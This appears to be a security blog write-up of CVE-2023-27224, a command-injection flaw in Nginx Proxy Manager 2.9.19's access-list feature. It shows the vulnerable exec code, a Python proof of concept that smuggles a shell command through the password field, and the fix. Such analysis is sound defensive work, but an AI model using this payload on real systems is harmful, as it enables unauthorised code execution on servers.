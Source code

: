 ```yaml
---
title: CVE-2023-27224 (NginxProxyManager)
description: >-
  Arbitrary Code Execution in NginxProxyManager
author: Cronus
date: 2025-02-05 14:17:00
categories: [Security, 1-Day]
tags: [1-Day]
pin: false
---
```




## [ Info ]
- Target : Nginx Proxy Manager
- Version : 2.9.19
- Category : Arbitrary Code Execution
## [ Build ]
```bash
docker run -p 8080:80 -p 8081:81 jc21/nginx-proxy-manager:2.9.19
```

## [ Product Overview ]

[Nginx Proxy Manager](https://github.com/NginxProxyManager/nginx-proxy-manager) which is based on NodeJS, is a open-source tool to simplify the management of Nginx's proxy, SSL, Access lists, and more. It lets user manage, control their site easier. For example, it provide the feature of controlling ACL with admin console, so user can easily create blacklist or whitelist by using UI.

## [ Vulnerable Summary ]

Aribitrary Code Execution via Access list feature in Nginx Proxy Manager <= 2.9.19

## [ Vulnerability Details ]

The vulnerability is in `backend/internal/access-list.js` which manages Access List. 

![1.png](/assets/img/CVE-2023-27224/1.png)
A user can define IPs to allow or deny, and define about authorization. 

```javascript
// backend/lib/utils.js
const exec = require('child_process').exec;

module.exports = {

	/**
	 * @param   {String} cmd
	 * @returns {Promise}
	 */
	exec: function (cmd) {
		return new Promise((resolve, reject) => {
			exec(cmd, function (err, stdout, /*stderr*/) {
				if (err && typeof err === 'object') {
					reject(err);
				} else {
					resolve(stdout.trim());
				}
			});
		});
	}
};

```

Nginx Proxy Manager defines a module that uses `child_process` in the `backend/lib/utils.js`. <u>The problem  is that the cmd parameter lacks any sanitization</u>. And this module is used in `backend/internal/access-list.js` .

```javascript
// backend/internal/access-list.js
const utils = require('../lib/utils');
			...
			
	/**
	 * @param   {Object}  list
	 * @param   {Integer} list.id
	 * @param   {String}  list.name
	 * @param   {Array}   list.items
	 * @returns {Promise}
	 */
	build: (list) => {
		logger.info('Building Access file #' + list.id + ' for: ' + list.name);

		return new Promise((resolve, reject) => {
			let htpasswd_file = internalAccessList.getFilename(list);

			// 1. remove any existing access file
			try {
				fs.unlinkSync(htpasswd_file);
			} catch (err) {
				// do nothing
			}

			// 2. create empty access file
			try {
				fs.writeFileSync(htpasswd_file, '', {encoding: 'utf8'});
				resolve(htpasswd_file);
			} catch (err) {
				reject(err);
			}
		})
			.then((htpasswd_file) => {
				// 3. generate password for each user
				if (list.items.length) {
					return new Promise((resolve, reject) => {
						batchflow(list.items).sequential()
							.each((i, item, next) => {
								if (typeof item.password !== 'undefined' && item.password.length) {
									logger.info('Adding: ' + item.username);

									// ⬇ Vulnerable Code
									utils.exec('/usr/bin/htpasswd -b "' + htpasswd_file + '" "' + item.username + '" "' + item.password + '"')
										.then((/*result*/) => {
											next();
										})
										.catch((err) => {
											logger.error(err);
											next(err);
										});
								}
							})
							.error((err) => {
								logger.error(err);
								reject(err);
							})
							.end((results) => {
								logger.success('Built Access file #' + list.id + ' for: ' + list.name);
								resolve(results);
							});
					});
				}
			});
	}
};

```

The `build: (list)` function calls `utils.exec()` when Nginx Proxy Manager creates or updates Access List.  If attacker abuse this feature, command injection can allow arbitrary code execution, going against the original purpose of the code.

## [ Exploit Conditions ]

The vulnerability can be exploited by an authenticated attacker who has permissions of making Access List. 

## [ Proof-of-Concept ]

```python
import requests

#payload = input("Enter the payload: ")
payload = '"; id > /tmp/pwned.txt; echo "'

url = "http://localhost:12001/api/nginx/access-lists"
header = {"Authorization": "[Admin Token]"} # Modify Here

data = {"name":"Test","satisfy_any":False,"pass_auth":False,"items":[{"username":"Test_username","password":f"Test_password{payload}"}],"clients":[{"address":"1.2.3.4","directive":"allow"}]}

res = requests.post(url, headers=header, json=data)

print(res.status_code)
```

![2.png](/assets/img/CVE-2023-27224/2.png)

## [ Mitigation ]

The code was modified to ensure that user input is passed as an array instead of being directly executed as part of the command. This change makes malicious commands get interpreted as regular strings. In practice, if a malicious command is injected, a 403 error is returned.

![3.png](/assets/img/CVE-2023-27224/3.png)
